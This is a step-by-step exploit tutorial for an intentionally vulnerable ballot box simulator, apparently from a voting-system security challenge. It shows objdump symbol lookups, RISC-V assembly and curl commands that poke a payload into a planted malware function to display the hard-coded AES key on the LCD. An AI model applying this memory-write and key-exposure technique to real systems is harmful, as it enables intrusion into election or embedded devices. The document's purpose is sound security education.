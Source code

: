 This is the simplest example of how to use the peek-poke server. This exploit walks through how to write the ballot box LCD display value to be the location of the AES key.

## Examine the SBB source code & use objdump

Looking at the `fetch_keys` function in the [SBB source code](../../../source/crypto/crypto.c#L39), you see the comment:

```
   // we simply return addresses of the hard-coded keys that were linked
    // in at compile time, with the mock key returned in any situation
    // where one of the 3 "real" keys is not asked for
```

Let's go find that hard-coded location. In this example, you'll just look for the mock key.

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "mock_key"
c0082178 l     O .rodata	00000020 mock_key
```

The first field, `c0082178` is the mock_key's memory location. (If this address is different in the output on your system, the source code has probably been updated since this document was written and you'll have to use your value to follow along with the rest of this example.)

For this example, let's get the mock_key to be displayed on the SBB's LCD display. The LCD display currently reads "Welcome, Voter!", so let's first find that string [in the source code](../../../source/sbb/sbb_strings.c#L10):

```
const char *welcome_text = "Welcome, Voter!";
```

Great, now let's find the location of the `welcome_text` symbol in the ELF file:

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "welcome_text"
c0088258 g     O .sdata	00000004 welcome_text
```

You can see the welcome_text is at `0xc0088258`.

Now let's write the address of mock_key to the welcome_text location.

## Create RISC-V 32 bit assembly

You need the RISC-V 32 bit assembly that corresponds to writing the address of the mock_key to the welcome_text location; one tool that provides a helpful interface for doing this is using the online [godbolt compiler explorer.](https://godbolt.org/z/0vfCJw) There may be situations where it will be better to write a small amount of assembly by hand, but here it's easiest to use the compiler.

Let's write a C function that does what you want:

```
void exploit() {
    // get a pointer to the welcome_text
    int *x = (int *)0xc0088258;
    // write the address of the mock_key
    *x = 0xc0082178;
}
```

You can see the generated RISC-V 32 bit assembly in the pane to the right, and pick out the parts that aren't part of the function call setup / tear-down. Be careful as the highlighting on godbolt doesn't always correspond directly to the source code!

The assembly you want is everything between the stack pointer (`sp`) manipulations:

```
lui a0, 786568
addi a0, a0, 600
sw a0, -12(s0)
lw a0, -12(s0)
lui a1, 786562
addi a1, a1, 376
sw a1, 0(a0)
```

Next, let's save this into a file called `payload.asm`, and get the binary (hex) representation of these instructions. You can then "load" this binary by writing it to the `malware()` function using the peek/poke server, and execute it by running `malware()`.

## Craft our binary

To craft your desired binary, you need to invoke the RISC-V 32 bit assembler, and grab only the parts of the resulting ELF file that correspond to those instructions. The provided [`run_exploit.sh` script](../../run_exploit.sh) will do this for you.

Let's look at the contents of that script, and then below look at how to use it.

_You don't need to run the code in this section to follow along; it is easier to run the provided `run_exploit.sh` script, as is explained in the next section. Knowing these steps will be useful for other exploits._

The script first calls the assembler:
```
prefix=riscv32-unknown-elf-
tempDir=$(mktemp -d)
...
${prefix}as -o "$tempDir/exploit.elf" "$1"
```

to create an assembled ELF file, and then grab only the `.text` section to get the binary corresponding to your function body while avoiding all the other ELF formatting:

```
${prefix}objcopy -O binary --only-section=.text "$tempDir/exploit.elf" "$tempDir/payload.bin"
```

To `poke` the memory into the `malware()` function, you need to specify how many bytes to write; you can find the size of our binary using `du`:

```
size=$(du -b "$tempDir/payload.bin" | cut -f 1)
```

Finally, you need to call the peek/poke server twice: first to poke our binary into the body of the malware function, and again to run the malware function:

```
curl -v --data-binary @"$tempDir/payload.bin" --request PATCH http://$SBB_IP/poke/$malStartAddr/$size
curl -v http://$SBB_IP/run/0
```

## ./run_exploit.sh

To run `run_exploit.sh` you first need to set two environment variables.

The first is the IP address of the peek/poke server, which you can find published in the Voting Village.

The other is the address to which you want to write your binary payload in the malware function; one easy way to find where to write to is to look at the binary with `riscv32-unknown-elf-objdump -d`.

You should be able to find the `malware` function in the output of `objdump`.
One complication is that the peek-poke server will only let you write 512 bytes past the beginning on the malware function. (See [here](https://gitlab-ext.galois.com/ssith/voting-system/blob/master/source/protocols/HTTP/peekpoke.c#L63))

So, you can grab the address where the `nop`s start, and add 0x200 to that address, since 512 = 0x200.  For example:

```
c001d170 <malware>:
c001d170:       fe010113                addi    sp,sp,-32
c001d174:       00812e23                sw      s0,28(sp)
c001d178:       02010413                addi    s0,sp,32
c001d17c:       fea42623                sw      a0,-20(s0)
c001d180:       feb42423                sw      a1,-24(s0)
c001d184:       00000013                nop
c001d188:       00000013                nop
c001d18c:       00000013                nop
...
```

Adding on the offset mandate by the server:
```
0xc001d184 + 0x200 = 0xc001d384
```

Set the values you've found as `SBB_IP` and `malware_start_addr`:

```
# don't copy this code directly, find them for your environment as described above
export SBB_IP=192.168.55.247
export malware_start_addr='0xc001d384'
```

Once you've set those two environment variables, you can run the script (which lives one directory down):

```
cd ..
./run_exploit.sh payload.asm
```

This will create the binary corresponding to our assembly instructions, copy that binary into the `malware()` function, and execute it.

## Recap

This example demonstrated how to find the (static) location of the AES key, and expose it by writing to a location which was displayed on the LCD display. To do this you:

* found the interesting pieces of data by inspecting the source code
* found their memory locations by searching the symbol table with `objdump`
* wrote a C function which rewrote data in the SBB code
* compiled it using a RISC-V 32 bit compiler
* ran `./run_exploit.sh` with our assembly as a payload. This:
    * created binary corresponding to the interesting part of the assembly using an assembler & objcopy
    * wrote our crafted binary to the malware function using the poke server
    * executed using malware function, which overwrote the memory using our binary code, by requesting that the server `run` the malware function

